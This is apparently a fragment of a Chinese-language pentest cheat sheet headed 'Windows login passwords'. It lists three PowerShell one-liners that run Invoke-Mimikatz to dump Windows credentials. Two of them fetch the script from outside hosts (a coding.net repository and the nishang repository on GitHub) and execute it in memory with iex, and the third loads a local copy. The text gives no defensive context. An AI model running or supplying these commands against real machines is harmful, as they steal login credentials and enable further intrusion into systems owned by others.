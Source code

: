 ### Windows登陆密码

> `iex (New-Object Net.WebClient).DownloadString('https://xiaokaixuan.coding.net/p/scripts/d/scripts/git/raw/master/Powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> `iex ((Get-Content .\Invoke-Mimikatz.ps1) -Join [char]10); Invoke-Mimikatz`
